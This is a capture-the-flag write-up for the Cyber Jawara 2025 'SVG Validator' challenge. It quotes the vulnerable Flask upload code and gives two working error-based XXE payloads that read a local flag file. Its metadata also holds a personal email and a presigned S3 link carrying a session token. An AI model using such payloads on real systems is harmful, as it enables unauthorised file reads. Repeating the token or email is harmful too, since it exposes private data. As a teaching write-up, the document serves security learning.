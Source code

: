 ```yaml
---
id: 17948583-e65d-8037-bf0f-d573b2499823
title: >-
  Read the file with lxml.etree that Vulnerable to XXE, include the local DTD,
  and generate an error to read the Flag: Cyber Jawara National 2025 Quals SVG
  Validator
created_time: 2025-01-12T10:59:00.000Z
last_edited_time: 2025-05-22T09:16:00.000Z
cover_image: ./imgs/mita-miside-oshinokodance-oshinokodance_bVLkwBdw.gif
icon_emoji: 🫡
categories:
  - XXE
verification:
  state: unverified
  verified_by: null
  date: null
page: >-
  Read the file with lxml.etree that Vulnerable to XXE, include the local DTD,
  and generate an error to read the Flag: Cyber Jawara National 2025 Quals SVG
  Validator
owner:
  - object: user
    id: ee7aeeeb-cd0d-4cbb-9e7e-109320ff16fa
    name: Dimas
    avatar_url: >-
      https://s3-us-west-2.amazonaws.com/public.notion-static.com/fab4bcf0-36ea-4bd6-8847-f18b157387da/92920739.png
    type: person
    person:
      email: dimasmaulana0305@gmail.com
_thumbnail: ./imgs/mita-miside-oshinokodance-oshinokodance_bVLkwBdw.gif

---
```


# Description

A simple SVG validator.

[image](https://prod-files-secure.s3.us-west-2.amazonaws.com/39d1be85-e7c6-4263-a666-a42da95a70df/8d6a70b2-6c3c-410a-9ddb-5303e731a08d/svg-validator.zip?X-Amz-Algorithm=AWS4-HMAC-SHA256\&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD\&X-Amz-Credential=ASIAZI2LB4667ZVM5ZCJ%2F20250523%2Fus-west-2%2Fs3%2Faws4_request\&X-Amz-Date=20250523T112618Z\&X-Amz-Expires=3600\&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEDMaCXVzLXdlc3QtMiJHMEUCIQCUc1XBx646TMSuE8HrNQyDJ3UzoxLsMB1h9yhqY08vEgIgOtFgXA2%2B8j6epaE7YSZZAejbIhnKcqGf9eCFVrtt5WMqiAQI7P%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FARAAGgw2Mzc0MjMxODM4MDUiDDkIkU0NQuZxOnKh8SrcA7LplXJu6aK3r7gPv%2BbAxMksuSP1ZqhUtZf3moOK9LcLS2Be9Ia0vcNnjPln70C1RHvx%2BcxFJeA%2FRsdQbNwPHZfaHSWZ%2BYHrgjjHnKwNRa%2F2E4TO1HMhRjQdf0nVdiWL8TB4v%2FE0OlOLKf20i1AP0lOK%2FOeSbx97TmYg5RANRykd3woMiAaw0dfS%2BL%2FJZ1rLO31M87HGBwRfPdfVBlyY8efT%2BwmgCOXD1Q1Tz7y8IF3xbGON9U5ehS%2BfYiHq%2BbnVBMxBJrr2uzIiHNXKcLtarrT5W%2BCfTLcoSfDEokDT3Phw5sY530jryAz47Oe8xzrK5nD6aHjXey8dRXEu3IOYmxwHqLKpxtEfhC2OlhIxmVZHf7Qmjhzag%2BtoxHLuhSIhxQhe1ozygg5hQYUeHWhWTg0Jj9n9MCvbFRKvg8WH4eIxo0MmY5WKCCG306WQBeXd29tEIDni75wl89zkwmZdSd%2FT5%2FOROgPbqT48dXh9i3V6%2F3fz4G6NZ5XHVD%2FBk73bBwlRlkbhUhQZbalYNqPaCqkOnZPi1u09Zi6Q2GwcixJVziHY0bB2FlmfM2mGMes5ihAU592V3csE2%2BZLoMZvpe2ba2NGrareS%2B99pZkfoekWh4QQWfLgS7l4AxmPMLKmwcEGOqUBEBUl2MTeNQ%2B%2B2Qc7sDej1ri772thpa015KUBmrloq3gWvRBe5mAUcoqWHRxmcAMSu%2FP4nmUadoPFVPS6CxkxlR9yOvs%2FnccjIgtU8T3Ny6KCS%2BlK3W1ksFvWrCktXhs%2FcF3UseAdCgmZPGKW%2BLSQP4T3B2h9Vj5%2BM17AqCcCM1XQUa05hUk%2Fu%2F%2F0qXXYunDslMsbUE3jgI9qBEJPhFlDeZVJg1X1\&X-Amz-Signature=5dfff718e4852634b9880d3d2e9ff332879649a787a72bb5bb9c9558e44b11be\&X-Amz-SignedHeaders=host\&x-id=GetObject)

# Exploit

In order to gain Arbitrary File Read, we will exploit the XXE vulnerability in the `lxml.etree`. We must introduce an error in the XML since we cannot read the flag information directly because we do not receive the rendered XML's direct output.

For this task, we have to save our local file on the server, but we can't because it will be deleted after validation. However, we can store and get around the `os.remove` due of a logical error:

```python
        valid = is_valid_svg(file_path)
        os.remove(file_path)

        return jsonify({'valid': valid})
    except Exception as e:
        return jsonify({'error': str(e)}), 500
```

Therefore, by making the `is_valid_svg` function throw an error, we can avoid the `os.remove` step and ensure that the file stored on the server will remain intact even if our `is_valid_svg` method gives an error.

```python
def is_valid_svg(file_path):
    tree = etree.parse(file_path)
    root = tree.getroot()
    return root.tag.endswith('svg')

@app.route('/upload', methods=['POST'])
def upload_file():
    if 'file' not in request.files:
        return jsonify({'error': 'No file part'}), 400

    file = request.files['file']

    if file.filename == '':
        return jsonify({'error': 'No selected file'}), 400

    if not allowed_file(file.filename):
        return jsonify({'error': 'Invalid file extension'}), 400

    file_path = ''

    try:
        extension = file.filename.rsplit('.', 1)[1].lower()

        filename = hashlib.sha256(
            (file.filename + str(secrets.token_hex)[:16]).encode('utf-8')
        ).hexdigest() + '.' + extension
        file_path = os.path.join(app.config['UPLOAD_FOLDER'], filename)
        file.save(file_path)

        valid = is_valid_svg(file_path)
        os.remove(file_path)

        return jsonify({'valid': valid})
    except Exception as e:
        return jsonify({'error': str(e)}), 500
```

We now need to keep one XML file on the server so that we can add it later to cause an error that will leak the flag. This is the first file we upload:

testing.svg

```python
<!ENTITY % content SYSTEM "file://app/flag.txt">
	<!ENTITY % test '<!ENTITY &#x25; file SYSTEM "file:///tmp/%content;">'>
 	%test;
```

due to the etree.Parse will automatically avoid the os.remove function and throw an error since it does not recognize this as valid XML. The second file is as follows:

file.svg

```python
<!DOCTYPE root [
	<!ENTITY % dtd SYSTEM "file:///tmp/051880fbfbd0b3f38ec3244610784c3a9c258f755039bb7cf1311fd1fc843f2d.svg">
 	%dtd;
]>
<svg></svg>
```

The file in tmp is a file that we upload before, the hash isn’t random and same each iteration because their filename isn’t use secret.token\_hex function properly:

```python
        filename = hashlib.sha256(
            (file.filename + str(secrets.token_hex)[:16]).encode('utf-8')
        ).hexdigest() + '.' + extension
```

So after we uploaded that two file we will get the flag:

![](./imgs/image_UQYv5eO4.png)
